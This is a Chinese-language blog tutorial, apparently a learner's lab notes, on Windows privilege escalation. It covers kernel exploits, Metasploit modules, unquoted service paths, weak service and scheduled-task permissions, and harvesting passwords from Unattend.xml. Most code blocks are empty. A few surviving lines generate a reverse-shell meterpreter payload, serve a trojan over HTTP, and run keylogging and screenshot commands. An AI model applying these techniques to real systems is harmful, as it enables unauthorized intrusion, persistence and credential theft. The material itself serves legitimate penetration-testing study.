Windows权限提升-内网渗透
最后更新时间:
文章总字数:
预计阅读时间:
0x01 基础知识
提权的思路最重要的就是信息收集,我们只有对整个系统进行了较全面的信息收集,大概对整个系统有了一定的了解后,我们才能高效且精准的完成提权
比方说:我们收集到这个系统是windows-sever2003的系统和里面的一些相关配置我们能联想到什么提权方法呢?
是不是可以先利用自动化工具(msf和cs)先去尝试–>针对低版本的系统命令–>进程迁移–>令牌窃取–>dll劫持–>不安全的服务–>手工提权这么一个流程
1.1 提权基础命令
1 | |
其中需要注意一下 环境变量，因为有的软件环境变量可能设置在其它路径中，而在该路径下的文件是具有写权限的，就可以通过替换文件来达到提权操作
这里的命令在windows信息搜集都有的
1.2 Windows 权限划分
- User：普通用户权限，系统中最安全的权限，分配给该组的默认权限不允许成员修改操作系统的设置或用户资料
- Administrator：管理员权限，可以利用 Windows 的机制将自己提升为 System 权限，以便操作 SAM 文件等
- System：系统权限，可以对 SAM 等敏感文件进行读取，往往需要 Administrator 权限提升到 System 权限才可以对散列值进行 Dump 操作
- TrustedInstaller：最高权限， 对于系统文件，即使 System 权限也无法进行修改，只有 TrustedInstaller 权限才可以修改文件
1.3 常见 webshell 所处的权限
通常的 webshell 权限如下：
- ASP、PHP - 匿名权限
- ASPX - user 权限
- JSP - 通常是系统权限
1.4 权限提升分类
- 纵向提权：低权限用户获得高权限角色的权限。
- 横向提权：获得同级别角色的权限。
常用的提权方法有Windows系统内核溢出漏洞提权、错误的系统配置提权、数据库提权等等。下面我们对常用的几种提权的方法进行逐一演示。
0x02 系统内核溢出漏洞提权
溢出漏洞是一种计算机程序的可更正性缺陷。溢出漏洞的全名：缓冲区溢出漏洞。因为它是在程序执行的时候在缓冲区执行的错误代码，所以叫缓冲区溢出漏洞。缓冲溢出是最常见的内存错误之一，也是攻击者入侵系统时所用到的最强大、最经典的一类漏洞利用方式。成功地利用缓冲区溢出漏洞可以修改内存中变量的值，甚至可以劫持进程，执行恶意代码，最终获得主机的控制权。
利用Windows系统内核溢出漏洞提权是一种很通用的提权方法，攻击者通常可以使用该方法绕过系统中的所有安全限制。攻击者利用该漏洞的关键是目标系统有没有及时安装补丁，如果目标系统没有安装某一漏洞的补丁且存在该漏洞的话，攻击者就会向目标系统上传本地溢出程序，溢出Administrator权限。
下面演示提权过程。
2.1 手动查找系统潜在漏洞
获取目标主机的一个普通用户的shell后，执行如下命令，查看目标系统上安装了那些补丁：
1 | |


可以看到系统就装了这几个补丁。攻击者会通过没有列出的补丁号，寻找相应的提权EXP，例如KiTrap0D和KB979682对应、MS10-021和KB979683对应等等。然后使用目标机上没有的安装的补丁号对应的EXP进行提权。Windows不同系统提权的漏洞和相应的补丁请见：点我呀。
2.2 自动查找系统潜在漏洞
方法一：Windows Exploit Suggester
下载地址：https://github.com/GDSSecurity/Windows-Exploit-Suggester
该工具可以将系统中已经安装的补丁程序与微软的漏洞数据库进行比较，并可以识别可能导致权限提升的漏洞，而且其只需要我们给出目标系统的信息即可。
使用如下：
首先更新漏洞数据库，会生成一个xls的文件，如下 2023-09-20-mssb.xls
这里有个小问题，首先下载好zip更新了数据库之后，需要安装一个依赖，依赖项目中有说明，之后更新数据库按理来说，更新的文件后缀应为xls，可我这里是xlsx，如果直接用xlsx则会报错（以上是我在虚拟机的情况），我们可以在本地更新后打开另存为xls，具体呢推荐如下图所示的格式

其他形式还未尝试，大家感兴趣可以测试
注意必须为python2环境

然后执行如下命令，查看目标主机系统信息，保存为sysinfo.txt文件：
1 | |
最后，运行如下命令，查看该系统是否存在可利用的提权漏洞：
1 | |

如上图，执行后，给出了一些目标系统存在的漏洞
方法二：local_exploit_suggester 模块
Metasploit内置模块提供了各种可用于提权的local exploits，并会基于架构，平台（即运行的操作系统），会话类型和所需默认选项提供建议。这极大的节省了我们的时间，省去了我们手动搜索local exploits的麻烦。
使用如下，假设我们已经获得了目标主机的一个session：
1 | |
这里我就搜了篇文章，对win7靶机获取一下其session
小tip：后渗透之获取普通session
1 | |
1 | |

Linux：
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost= lport= -f elf > shell.elf
Windows:
1 | |
1 | |
1 | |
不过操作下来，发现没必要非得写64位对应的命令，反而这个命令还报错，不知是否为我的失误

4.将该shell文件上传到靶机中。在kali控制台下使用python 环境执行命令：python -m SimpleHTTPServer 800搭建一个http服务，提供一个web页面供靶机浏览。(一定是在管理员模式下执行此命令 (sudo su))
不过这里不用搞800,默认端口即可

值得注意的是python2才可以
打开目标机win7，输入地址进行下载木马并保存在桌面


上图为下载的回显，返回第二步界面，设置监听主机，运行

可以看到得到了session
查看session，如果此时是meterpreter，输入background即可返回msf exploit(multi/handler)
查看系统信息:sysinfo
截取时下桌面:screenshot

捕获击键记录:keyscan start
控制键盘鼠标 启用/禁用:uictl enable/disable keyboard
参考文章：msf 获取一个普通的session 控制windows
接上回，我们已经获得了目标主机的一个session：
1 | |
这里也有个小坑，必须要在同一终端下，将msf先挂个后台，通过background，随后在执行上述命令

这里也是发现了二十几个，该模块快速识别并列出了系统中可能被利用的漏洞，十分方便。但虽然如此，也并非所有列出的local exploits都可用。
方法三：enum_patches 模块
会用metasploit中的post/windows/gather/enum_patches模块可以根据漏洞编号快速找出系统中缺少的补丁。使用如下：
1 | |
这里不在演示了，同上述步骤即可
在实际的查找潜在漏洞的过程中，建议手动和自动双管齐下。
下载地址：https://github.com/rasta-mouse/Sherlock
该脚本可以快速的查找出可能用于本地权限提升的漏洞。使用如下：
1 | |
这里总是报错，我就下载到本地了，这里搜索的时间较长，耐心等待

2.3 选择漏洞并利用
查找了目标机器上的补丁并确定存在漏洞后，我们就可以像目标机器上传本地溢出程序，并执行。这里，我们选择的是CVE-2018-8120。
漏洞利用程序可以从以下几个地址中下载：（里面附有使用说明）
- Windows 下的提权大合集：https://github.com/lyshark/Windows-exploits
- Windows内核溢出漏洞提权大全：https://github.com/SecWiki/windows-kernel-exploits
- 各大平台提权工具：https://github.com/klsfct/getshell

这里下载的时候注意将exe文件放入相应目录在执行如上命令

如上图，再执行提权程序之前，为普通用户whoami权限，执行后为system权限。msfconsole上完整操作如下：

这里尝试了多个漏洞，但似乎是我的用法不正确（而且我也不知道如何用）导致在此环境下whoami一直为普通用户

但奇怪的是每次执行命令之后，靶机都会自动跳转一个以管理员身份打开的cmd
但可能为另一种情况，就是其目标就是让靶机提权，但或许反应不到msf上，这里我对内网渗透了解较少，可能理解有问题吧，先过个思路。
不过在突然看到靶机中有了相应的exp，我便知道了，upload就会将该 exp由攻击者下载到靶机处，接着执行该 exe 文件，执行后便也就是提权了，即也是为何最后出现system cmd的原因吧，但仍不理解的是为何msf的whoami没有显示管理员权限
0x03 系统错误配置漏洞提权
在Windows系统中，攻击者通常会通过系统内核溢出漏洞来提权，但是如果碰到无法通过系统内核溢出漏洞提权的情况时，会可以利用系统中的错误配置漏洞来提权。下面演示几种常见的Windows系统错误配置漏洞提权方法。
Trusted Service Paths漏洞（可信任服务路径漏洞）
Trusted Service Paths 漏洞是由系统中的“CreateProcess”函数引起的，并利用了windows文件路径解析的特性。
首先，我们来认识一下Windows中文件路径解析的特性。例如，我们有一个文件路径为“C:\Program Files\Some Folder\Service.exe”。那么，对于该路径中的每一个空格，Windows都会尝试寻找并执行与空格前面的名字相匹配的程序。如上面的目录为例，Windows会依次尝试确定和执行一下程序：
1 | |
可见，最后才确定并执行真正的程序Service.exe。而由于Windows服务通常是以system权限运行的，所以系统在解析服务所对应的文件路径中的空格时，也会以system系统权限进行，那么，如果我们将一个“适当命名”的可执行程序上传到以上所说的受影响的目录中，服务一旦启动或重启，该程序就会以system权限运行了，可见该漏洞利用了服务路径的文件/文件夹的权限。
该漏洞是由于一个服务的可执行文件没有正确的处理所引用的完整路径名，即一个服务的可执行文件的完整路径中含有空格且没有被双引号引起来，那么该服务就存在这个漏洞。下面演示该漏洞利用方法。
首先，我们可以用以下命令列出目标主机中所有存在空格且没有被引号括起来服务路径：
1 | |
我的靶机都没有此漏洞，也有点懒不想费时间搭了，因此跟着过一遍思路吧

如上图，可以看到“whoami”和“Bunny”这两个服务对应的二进制文件路径没有引号包含起来，并且路径中包含空格。是存在该漏洞的，但在上传可执行文件进去之前，我们需要确定我们对目标文件夹是否有写入的权限。
这里我们使用Windows中的icacls命令，依次来检查“C:\”、“C:\Program Files\Program Folder”等目录的权限发现只有“C:\Program Files\program folder”目录有Everyone(OI)(CI)(F)：
参数说明：
- “M”表示修改
- “F”代表完全控制
- “CI”代表从属容器将继承访问控制项
- “OI”代表从属文件将继承访问控制项。
这就意味着对该目录有读，写，删除其下的文件，删除该目录下的子目录的权限。

确认目标机器中存在此漏洞后，把要上传的程序重命名并放置在存在此漏洞且可写的目录下，执行如下命令，尝试重启服务。
1 | |
既然要重启服务，那么我们就可以知道，该提权方法需要管理员权限，重启服务的方法适用于从管理员权限到system的权限提升过程。而实际情况下，我们直接对目标主机执行“shutdown -r -t 0”命令让他重启就行了。
我们生成一个msf马并重命名为Hello.exe上传到该“C:\Program Files\Program Folder”目录下，然后分别执行如下命令重启该WhoamiTest服务：
1 | |
如下图完整利用过程：

可知提权前为管理员权限（liukaifeng01），提权成功后我们得到一个system权限的session。
这里也是解惑了，是我太傻，原来在上次执行CVE.exe之后，getuid便可以将提权结果展示在meterpreter中
这里要注意，新反弹得到的meterpreter会很快就中断了，这是因为当一个进程在Windows中启动后，必须与服务控制管理进行通信，如果没有通信，服务控制管理器会认为出现了错误，进而终止这个进程。所以，我们要在终止载荷进程之前将它迁移到其他进程中，使用msf的“set AutoRunScript migrate -f”命令即可实现自动迁移进程：

该提权方法在metasploit中对应的模块为：exploit/windows/local/unquoted_service_path，使用如下：
（在之前的metasploit中为exploit/windows/local/trusted_service_path，但在新版的metasploit中替换替换成了exploit/windows/local/unquoted_service_path）
1 | |

如上图，提权成功
系统服务错误权限配置漏洞
Windows 系统服务文件在操作系统启动时加载和执行，并在后台调用可执行文件。因此，如果一个低权限的用户对此系统服务调用的可执行文件拥有写权限，就可以将该文件替换成任意可执行文件，并随着系统服务的启动获得系统权限。**Windows 服务是以System权限运行的，因此，其文件、文件夹和注册表键值都是受强访问控制机制保护的。**但是，在某些情况下，操作系统中仍然存在一些没有得到有效保护的服务。
该漏洞利用有以下两种情况：
- 服务未运行：攻击者会使用任意服务直接替换原来的服务，然后重启服务。
- 服务正在运行且无法终止：这种情况符合绝大多数漏洞利用的场景，攻击者通常会利用DLL劫持技术并尝试重启服务来提权。
1. 利用PowerUp.ps1脚本
下载地址：https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp
这里我们利用一个Powershell的脚本——PowerUp，该脚本的AllChecks模块会检测目标主机存的Windows服务漏洞，然后通过直接替换可执行文件本身来实现权限的提升。
AllChecks模块的通常应用对象如下：
- 没有被引号引起来的服务的路径。
- 服务的可执行文件的权限设置不当
- Unattend.xml文件
- 注册表键AlwaysInstallElevated
将该脚本远程下载或本地导入后，执行Invoke-AllChecks命令进行漏洞检测
1 | |
这里推荐先下载到本地，不过我这个靶机依旧没有此漏洞，这里就直接用他人的了

如上图，可以看到PowerUp列出了所有可能存在该漏洞的服务的信息，并在AbuseFunction部分直接给出了利用方式。我们可以看到，目标主机的WhoamiTest服务可能存在该漏洞，然后我们再用icacls命令来测试该服务的可执行文件目录的“C:\Program Files\Program Folder\Hello Whoami\whoami.exe”文件是否有写入权限：
1 | |

如上图，可以看到我们对whoami.exe文件是有完全控制权的，那么我们就可以直接将whoami.exe替换成我们的msf马，当服务重启时，我们就会得到一个System权限的meterpreter。
这里，我们用“AbuseFunction”那里已经给出的具体操作方式，执行如下。
将原来的服务可执行文件备份，并用一个可添加管理员用户的恶意可执行文件代替它，默认添加的用户名为join，密码为Password123!：
1 | |

接下来停止并再启动该服务的时候，但由于我们当前是普通用户，我们没有权限重启服务，所以我们可以等目标系统重启，我们通过msf控制目标机执行“shutdown -r”命令来重启，重启后即可成功创建join用户：

添加指定的管理员用户：
1 | |


执行命令：
1 | |
2. Metasploit中的service_permissions模块
该漏洞提权在metasploit上面对应的模块为exploit/windows/local/service_permissions：

如上图，该模块有两个可以设置的选项，其中如果把AGGRESSIVE选项设为“true”，则可以利用目标机器上每一个有该漏洞的服务，设为“false”则在第一次提权成功后就会停止工作。演示如下：

（别忘了迁移进程哦~~）
0x04 计划任务与AccessChk使用
如果攻击者对以高权限运行的任务所在的目录具有写权限，就可以使用恶意程序覆盖原来的程序，这样在下次计划执行时，就会以高权限来运行我们的恶意程序。下面详细的进行演示。
首先可以利用如下命令查看计算机的计划任务：
1 | |

如上图，我们可以看到，在 C:\Program Files\schtasks\whoami目录有一个test.exe程序，它会在一个时间点自动运行，它会在计算机每次启动时运行，并且是用SYSTEM权限运行的。然后让我们看下我们对这个计划任务的路径是否有写入权限。
我推荐使用AccessChk工具，其为SysInterals套件里的一个工具，常用于Windows中进行一些系统或程序的高级查询、管理和排除故障等。AccessChk是微软官方的工具，一般不会引起杀软的报警没所以常会被攻击者利用下载地址：https://docs.microsoft.com/zh-cn/sysinternals/downloads/accesschk
执行以下命令，查看指定目录的权限配置情况：
1 | |

可以清楚地看到，这里有一个很严重的配置错误，对于这个计划任务“test”来说，这里不仅用了system权限来运行，更糟糕的是，任何经过身份验证的用户（Authenticated Users）都对这个文件夹有写入的权限。所以，我们可以生成一个木马，做一个后门就可以了，在本次演示例子中，我们可以简单的用msf木马覆盖掉原来的“test.exe”，如下图我们将原来的test.exe备份后，上传我们自己生成的“test.exe”（msf木马）：

然后重开一个msfconsole，设置好监听，接下来对目标机执行重启命令“shutdown -r -t 0”让其重新启动：

重新启动目标主机后，在另一个msfconsole上面即可得到system权限的session：

成功。
AccessChk使用
通过上面的例子，我们可以看出accesschk称得上是查找有权限配置缺陷文件夹的必备工具，下面是accesschk的一些其他使用实例。
当第一次执行任何sysinternals工具包里的工具时，当前用户将会看到一个最终用户许可协议弹框，这是一个大问题，然而我们可以添加一个额外的参数“/accepteula”去自动接受许可协议，即：
1 | |
Accesschk可以自动的检查当我们使用一个特定的用户时，我们是否对Windows的某个服务有写的权限。当我们作为一个低权限用户，我们首先就想要看一下“Authenticated Users”组对这些服务的权限。
找出某个驱动器下所有权限配置有缺陷的文件夹路径
1 | |
找出某个驱动器下所有权限配置有缺陷的文件
1 | |

如上图可以看到对这个目录下的每一个文件它都列出了Authenticated Users用户组的权限，R为读权限，W为写权限，RW表示有读写权限，如果前面为空则表示没有权限。
根据前面这几个提权的思路，当我们检查文件或文件夹权限的时候，需要考虑哪些点是易受攻击的点。你需要花费时间来检查所有的启动路径，Windows服务，计划任务和Windows启动项等。
自动安装配置文件
网络管理员在内网中给多台机器配置同一个环境时，通常不会逐台配置，而是会采用脚本化批量部署的方法。在这一过程中，会使用安装配置文件。这些文件中包含所有的安装配置信息，其中的一些还可能包含本地管理员的账号和密码等信息。我们可以对整个系统进行检查，这些安装配置文文件列举如下：
1 | |
全盘搜索Unattend文件是个好办法，可以用以下命令来全盘搜索Unattend.xml文件：
1 | |
- /S：显示指定目录和所有子目录中的文件。
除了Unattend.xml文件外，还要留意系统中的sysprep.xml和sysprep.inf文件，这些文件中都会包含部署操作系统时使用的凭据信息，这些信息可以帮助我们提权。
打开文件之后格式为xml格式然后可以进行搜索User、Accounts、UserAccounts、LocalAccounts、Administrator、Password或者经过base64加密的密码，因为我们只需要这部分，例如：
1 | |
在这个Unattend文件中，我们可以看到一个本地账户被创建并加入到了管理员组中。管理员密码没有以明文形式显示，但是显然密码是以Base64进行编码的。
1 | |

解密得密码为"P@ssword123!Password"，但是微软在进行编码前会在Unattend文件中所有的密码后面都追加"Password"，所以我们本地管理员的密码实际上是"P@ssword123!"。
1. 在Metasploit中利用的相应模块为post/windows/gather/enum_unattend
这个模块仅仅只是搜索Unattend.xml文件，然而会忽略其他像syspref.xml和syspref.inf这样的文件。简而言之，这个模块就是全盘搜索Unattend.xml文件并读取出管理员账户密码。

2. PowerUp中利用的模块
1 | |

0x04 后言
本节中，我们主要介绍了Windows系统内核溢出漏洞提权和windows系统错误配置漏洞提权的可信任服务路径漏洞提权、系统服务错误权限配置漏洞提权、自动安装配置文件提权。其中最常用的可能就是Windows系统内核溢出漏洞提权了，windows系统错误配置漏洞不仅可以用来提权，在获取高权限后还可以用来设置一个高权限后门，以备后用。
不过感觉我只是抄了一遍而已，因此我还是搞点靶场在实战中学习吧，毕竟靶场中肯定次次得提权。
想了想日后的提权文章，还是针对某种类型单独写出来吧，感觉效果会好一点。